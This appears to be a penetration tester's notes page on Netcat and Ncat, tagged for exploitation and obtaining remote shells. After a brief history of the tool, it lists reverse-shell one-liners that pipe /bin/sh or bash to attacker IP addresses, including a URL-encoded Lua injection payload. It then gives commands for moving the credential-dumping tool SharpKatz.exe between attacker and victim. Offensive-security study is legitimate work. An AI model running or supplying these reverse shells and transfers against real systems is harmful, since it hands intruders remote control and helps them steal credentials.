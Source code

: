 ```yaml
---
tags:
  - Exploitation
  - ObtainingRemoteShells
  - Tooling
---
```

Netcat is a versatile networking tool that is often referred to as the "Swiss Army knife" of networking. It can be used for a wide range of tasks, such as port scanning, transferring files, and creating backdoors. Netcat operates by establishing connections between two computers over a network and can work with both TCP and UDP protocols.

The original Netcat was [released](http://seclists.org/bugtraq/1995/Oct/0028.html) by Hobbit in 1995, but it hasn't been maintained despite its popularity. The flexibility and usefulness of this tool prompted the Nmap Project to produce [Ncat](https://nmap.org/ncat/), a modern reimplementation that supports SSL, IPv6, SOCKS and HTTP proxies, connection brokering, and more.
# Guide

1. Windows version, see [[Powercat]]
## Creating Listeners

1. **Ensure** you are listening on a port the victim also has open

```
nc -nvlp <PORT> 
```

## Shell Commands 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.102.113 443 >/tmp/f
```

```
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

```
os.execute(%27nc%2010.10.14.133%204444%20-e%20/bin/bash%27)%20--
```

```
nc -c bash xxx xxx
```

```
mkfifo /tmp/grpoa; nc 192.168.56.1 1337 0</tmp/grpoa | /bin/sh >/tmp/grpoa 2>&1; rm /tmp/grpoa
```

## Data Transfer

## Connect from Attacker / Listener on Victim 

1. Setup listener 

```shell-session
nc -l -p 8000 > SharpKatz.exe
```

```shell-session
ncat -l -p 8000 --recv-only > SharpKatz.exe
```

2. Send file

The option `-q 0` will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed.

```shell-session
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

```shell-session
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```


## Connect from Victim / Listener on Attacker

1. Setup listener on attacker 

```shell-session
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

```shell-session
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

2. Receive file

```shell-session
nc 192.168.49.128 443 > SharpKatz.exe
```

```shell-session
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```


### Bash Listener 

```shell-session
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```



